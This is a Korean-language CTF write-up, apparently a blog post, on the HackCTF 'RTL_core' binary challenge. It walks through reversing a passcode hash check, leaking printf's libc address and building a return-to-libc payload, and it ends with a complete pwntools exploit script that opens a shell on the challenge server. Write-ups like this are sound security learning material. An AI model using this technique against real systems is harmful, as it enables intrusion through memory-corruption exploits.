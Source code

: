 ```yaml
---
layout: post
title:  "HackCTF RTL core write-up"
date:   2020-01-12 19:45:55
image:  hackctf_rtl_core.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```



### 1.  문제

걸려있는 보호기법은 다음과 같다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled.png)

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%201.png)

문제를 실행시키면 패스코드를 입력하라는 문구가 나오게 된다.

특정 패스코드를 입력해야 뭔가 다음 스텝으로 진행되는 것 같다. 

따라서 아이다로 까보쟈  
<br>

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%202.png)

9라인을 보면 gets로 입력한 s 값을 check_pascode 함수에 넣은 값과 hashcode와 비교하는 것이 보인다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%203.png)

hashcode는 전역변수로 선언이 되어있는데 이 값은 0xc0d9b0a7 이다. check_passcode 함수의 리턴값과 저 값이 같아야지 core() 함수가 실행되는 것같다
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%204.png)

core함수는 다음과 같다. dlsym 함수를 이용하여 printf의 주소를 가져오는 코드이다. 따라서 해당 core 함수가 실행되면 printf 함수주소를 알려주게 된다. 즉 leak을 이용한 rtl 문제이다.
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%205.png)

그렇다면 우선 check_passcode 함수에서 hashcode와 같은 값을 계산하게 만들어야한다
<br><br><br>
### 2. 접근방법

우선 check_passcode를 통과시켜 보자

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%206.png)
<br><br>
입력한 값의 주소가 넘어가게된다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%205.png)
<br><br>
for문을 보면 al값에 4*i 만큼 더하고 다시 4바이트 포인터로 형변환 값을 v2에 더하게 된다
<br><br>
즉, 정리하면

- **i = 0**

    v2 = 0 + a1

- **i = 1**

    v2 = 4 + a1

- **i = 2**

    v2 = 8 + a1

- **i = 3**

    v2 = 12 + a1

- **i = 4**

    v2 = 16 + a1  
    
<br>
다음의 로직이 수행이 되고, 이 의미는, al 주소에서 4바이트 씩 +16까지 더한다는 의미이다.

이 값이 아까 hasscode와 같아야 하기 때문에 hashcode 나누기 5 를 하면 된다

하지만 딱 떨어지지 않고 2가 남기 때문에, 마지막 al+16의 값은 +2를 해주면 된다

1. hashcode : 0xC0D9B0A7(3235492007)
2. hashcode / 5 =  647098401 (나머지 2)
3. 입력해야 하는 값 

    647098401 + 647098401  + 647098401  + 647098401  + (647098401 + 2)
    
<br>    

그다음 core함수를 통해 출력되는 printf 주소를 이용하여 rtl을 진행하면된다

문제에서 libc.so.6 파일을 주었기 때문에, pwntools symbols 기능을 이용하여 익스코드를 짜면된다
<br><br><br><br>
### 3. 풀이

최종 익스 코드는 다음과 같다
```python
# -*- coding: utf-8 -*- 

from pwn import *

p = remote("ctf.j0n9hyun.xyz",3015)
e = ELF("./libc.so.6")
#p = process("./rtlcore")
#gdb.attach(p)

p.recvuntil("Passcode: ")


printf = 0xf7e4a670
system = 0xf7e3bda0
bin_sh = 0xf7f5ca0b

printf_system = 0xe8d0
bin_sh_printf = 0x11239b


payload = p32(0x2691f021)*4
payload +=p32(0x2691f023)

p.sendline(payload)
tmp=p.recvuntil("바로 ")
log.info(tmp)

printf_addr = int(p.recv(10),16)
log.info(hex(printf_addr))


libc_base = printf_addr - e.symbols['printf']

system_addr = libc_base + e.symbols['system']
bin_sh_addr = libc_base + e.search("/bin/sh").next()

payload = "A"*66
payload += p32(system_addr)
payload += "B"*4
payload += p32(bin_sh_addr)

p.sendline(payload) 

p.interactive()
```

<br><br><br>
### 4. 몰랐던 개념

처음에는 yes_or_no 문제를 풀면서 공부한 libc 공유 라이브러리 개념을 이용하여 문제를 풀었다

leak 한 주소 하위 3바이트를 가지고 libc database online을 이용하여 해당 libc 버전을 확인하였고, vmmap 을 이용하여 한번더 버전을 확인했다.

그 결과 우분투 16버전에서 진행하면 되는 것을 확인하였고,

<br>

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%207.png)

다음의 명령어를 통해 주어진 libc.so.6 파일이 결국 libc.-2.23.so 파일에 링킹되어 있다는 것을 알았다


<br>
그래서

    printf : 0xf7e4a670
    system : 0xf7e3bda0
    /bin/sh : 0xf7f5ca0b
    
    1. printf - system = 0xe8d0
    2. /bin/sh - printf =  0x11239b
    
    3. leak 한 printf 주소 - 0xe8d0 = system
    4. leak 한 printf 주소 + 0x11239b = /bin/sh
    
    --------------------------------------------
    
    ret(system) + 더미 + /bin/sh주소

이렇게 gdb로 직접 오프셋을 확인하여 익스를 하였는데

process로 로컬로 붙어서 했을때는 쉘이 떨어졌는데 원격으로는 안됬다. 

이부분은 멘토님이나 다른 친구한테 질문해야 할 것같다